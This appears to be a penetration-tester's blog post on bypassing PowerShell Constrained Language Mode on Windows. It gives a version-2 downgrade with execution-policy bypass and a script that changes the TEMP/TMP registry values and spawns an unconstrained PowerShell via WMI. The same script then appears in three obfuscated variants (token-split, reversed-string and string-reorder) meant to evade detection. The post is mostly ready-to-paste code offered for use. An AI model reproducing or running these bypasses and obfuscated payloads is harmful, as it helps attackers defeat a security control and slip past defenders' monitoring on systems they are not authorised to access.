 ```yaml
---
title:  "CLM Bypass"
date:   2021-10-17 19:12:00 +0000
categories: [techniques]
tags: [windows, powershell, bypass]
---
```


It is common during engagements to find that CLM (Constrained Language Mode) is configured on PowerShell as a SafeGuard or control against malicous activity.
This is a common misconception as there are many ways that CLM can be bypassed.
First check that CLM is in place by executing the following:

```
$ExecutionContext.SessionState.LanguageMode
```

If you want to set the Session to CLM from Full for testing then run:

```
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
```

I will leave it to the reader to make sure that the default is using CLM and not Full mode if testing.

Or if you want to change the PowerShell version then simplay add the arguments as per above.

The most common route is to simply downgrade to version 2 by using the '--version 2' argument.


```
powershell.exe -Version 2
```

If you want to bypass the execution policy then append the following:

```
powershell.exe -Version 2 -ExecutionPolicy bypass
```

Although this will likely work if PowerShell version 2 is installed alot of tools may not work to their full potential or simply not fit into your requirements using the legacy version.

There are tools out there to help ofcourse, these are usually execuable files which will touch disk and may not be what you want to do.

The following method can be simply pasted into a PowerShell window and a new PowerShell session is spawned as either the current PowerShell Version, or if needed, you could change the version to any other (2,3,4,5,6,7)

CLM Bypass Default
------------------

```
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe"
sleep 5

#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```

Or if you want to change the PowerShell version then simply add the arguments needed such the below:

PowerShell Specific Version
---------------------------

```
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe -Version 2 -ExecutionPolicy bypass"
sleep 5

#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```

Token Based Obfuscated
----------------------

```
${C`U`RrtEmP} = ${enV:T`e`Mp}
${CUrRT`MP} = ${ENv:`T`mp}
${temp`B`YpAs`SPaTH} = ((("{0}{5}{3}{4}{1}{2}" -f 'C','wsYyKte','mp','Kw','indo',':Yy')) -RePlACe  'YyK',[cHar]92)
${TmPb`ypa`Ssp`Ath} = ((("{0}{1}{2}{3}" -f 'C:{0','}windows{','0}te','mp')) -F [cHAr]92)

&("{2}{1}{3}{0}"-f 'y','emPr','Set-It','opert') -Path ((("{0}{1}{2}{4}{3}"-f 'hkcu:','{0','}','ment','Environ'))-f [char]92) -Name ("{0}{1}"-f'T','mp') -Value "$TEMPBypassPath"
.("{3}{2}{4}{1}{0}"-f 'roperty','P','-It','Set','em') -Path ((("{0}{5}{6}{1}{3}{2}{4}"-f 'hk','NAtE','viro','n','nment','cu',':')) -creplacE'NAt',[cHAR]92) -Name ("{0}{1}"-f 'T','emp') -Value "$TMPBypassPath"

&("{0}{2}{4}{1}{3}" -f'In','Me','voke-W','thod','mi') -Class ("{2}{0}{3}{4}{1}"-f'i','s','w','n32_proce','s') -Name ("{0}{1}"-f'crea','te') -ArgumentList ("{3}{4}{1}{2}{0}" -f'l.exe','e','l','Powe','rsh')
&("{1}{0}" -f'eep','sl') 5


.("{2}{1}{0}{4}{3}"-f 'emPro','et-It','S','ty','per') -Path ((("{1}{2}{3}{0}{5}{4}"-f 'v','hk','cu:A','YlEn','nt','ironme')) -repLaCE ([cHAr]65+[cHAr]89+[cHAr]108),[cHAr]92) -Name ("{0}{1}"-f'T','mp') -Value ${cuRr`TMP}
.("{1}{0}{2}{3}"-f 'emPr','Set-It','opert','y') -Path ((("{2}{4}{3}{0}{1}"-f 'vironm','ent','hk','n','cu:4XQE')) -CREPLacE '4XQ',[cHar]92) -Name ("{1}{0}" -f 'emp','T') -Value ${cURr`T`Emp}
```

Reverse String Obfuscated
-------------------------

```
$0wN5  =  ")'x'+]31[diLLEHs$+]1[dIlLehS$ (&|)43]RaHC[,63]RaHC[,93]RaHC[,29]RaHC[  f-)'pmeTrr'+'uC}2{ eulaV- '+'p'+'m'+'e'+'T e'+'m'+'aN- }1{tn'+'emn'+'orivnE}0{'+':'+'uc'+'k'+'h'+'}'+'1{ htaP'+'-'+' y'+'tre'+'porPm'+'et'+'I'+'-'+'teS

p'+'mTrr'+'uC}2{ eula'+'V'+'- '+'pmT '+'emaN- }1{tnem'+'norivnE}'+'0{:uck'+'h}1{ htaP'+'- '+'ytrep'+'orPm'+'etI-teS'+'

kc'+'a'+'b t'+'i te'+'S'+'#
'+'

5'+' pe'+'els

'+'}3{e'+'x'+'e.ll'+'e'+'h'+'srew'+'oP}3{ tsiLtne'+'m'+'ug'+'rA- e'+'taerc '+'emaN-'+' '+'ssec'+'orp_23'+'n'+'iw'+' ss'+'a'+'lC-'+' d'+'ohte'+'MimW-e'+'k'+'o'+'vnI
'+'

}'+'3{h'+'taPs'+'sapyBPMT}'+'2{}3{'+' eulaV- pm'+'e'+'T e'+'maN'+'- '+'}'+'1{t'+'nem'+'nori'+'vnE}0'+'{:uck'+'h}1'+'{ '+'hta'+'P- y'+'trep'+'orPm'+'e'+'t'+'I'+'-teS'+'

}'+'3'+'{hta'+'P'+'s'+'s'+'ap'+'yBPMET}2{}3{ e'+'ula'+'V-'+' pmT'+' e'+'maN-'+' '+'}1'+'{tne'+'mn'+'orivnE'+'}0{:uckh}1{ htaP- '+'y'+'t'+'r'+'e'+'po'+'r'+'Pmet'+'I-'+'t'+'eS'+'


}3{p'+'m'+'et'+'}'+'0'+'{swod'+'n'+'i'+'w}0'+'{:C}3{ ='+' h'+'ta'+'Pssap'+'y'+'BPMT}'+'2{'+'

'+'}'+'3'+'{'+'pmet}0{'+'swodniw}0'+'{:'+'C}3{ '+'= h'+'taPs'+'sa'+'pyBPM'+'ET'+'}2{'+'

'+'pm'+'t:vne'+'}2'+'{ '+'='+' pmT'+'rruC}'+'2'+'{

pme'+'t:vne}2{'+' ='+' p'+'me'+'Trr'+'uC'+'}2{'(( ";.( $Env:coMSPeC[4,24,25]-jOIn'') ( "$( sv 'OFS' '' ) " +[STrIng]( (  gEt-VaRiAbLe  ("0w"+"N5") ).vAlue[-1 ..-((  gEt-VaRiAbLe  ("0w"+"N5") ).vAlue.lENGth )]) +"$(set  'ofs'  ' ' ) ")
```

Obfuscated String Reorder
------------------------

```
(("{80}{106}{34}{40}{49}{45}{120}{29}{125}{124}{65}{87}{90}{70}{110}{41}{71}{112}{118}{96}{69}{8}{82}{103}{122}{119}{21}{14}{117}{5}{51}{55}{24}{94}{95}{83}{98}{88}{84}{53}{105}{99}{6}{31}{73}{32}{33}{77}{78}{23}{50}{48}{17}{109}{25}{111}{9}{100}{115}{104}{97}{37}{62}{102}{63}{75}{1}{22}{93}{66}{27}{57}{7}{44}{4}{38}{56}{26}{60}{30}{101}{13}{18}{52}{10}{114}{68}{3}{43}{86}{19}{15}{92}{108}{89}{59}{12}{76}{20}{123}{81}{46}{0}{35}{107}{16}{58}{36}{116}{113}{47}{61}{74}{72}{85}{67}{121}{54}{42}{79}{64}{2}{39}{28}{11}{91}"-f'1 -Nam','l',' -Value ','

#S','lass w','hTMPB','v','nvoke-WmiMeth','C:A','Path','hell.exefkI','rr','kcu:AZM','I','kI
4','Property -','rrTm','assP','Pow','tem','viron','tempf','ue fkI45hTMPB',' fkI4','=','-ItemPr','ocess -N','I
','hCu','env:t','-Argume','ir','-N','a','em','e Tmp -V','Se','ntMW','in32','45','p','
45hT',' ','et it ba','od -C',' 45','W','rope','EMPByp',' =','5hT','ypassPa','ers','emProperty -Path ','tMW1','th ','_pr','

I','p
','MW1h','ame create ','r','1 -N','emp -','emp','rrTm','Pathfk','cu:',' 5','I',':tm','EMPBy','1h','onmentMW1 ','ty -Path MW','Va','En','me Tmp -','Value','-Name T','45','tM','Z','Mwi','
Set-It','k','ck
Set-I','p = 45he','

','h ','nv','Temp','P','ypass',' fkIC:A','Z','th = fk','ronme','ndowsAZMtempfkI
','1hkcu:AZMEn',' ','ntList fk','ame T','Mwi','vi','MW','hCurrT','alue 45hCu','at','athfkI
Set','p
','operty -','p','mP','
sleep','MW1hkcu:AZMEn','t-Ite','5','assPa','sAZM','h','AZMEnvironmen','ndow','men','hCu','emp
45')).ReplaCE('MW1',[STRiNg][CHAR]39).ReplaCE('fkI',[STRiNg][CHAR]34).ReplaCE('45h','$').ReplaCE(([CHAR]65+[CHAR]90+[CHAR]77),'\') |& ( $pshoMe[4]+$pSHOme[34]+'X')
```

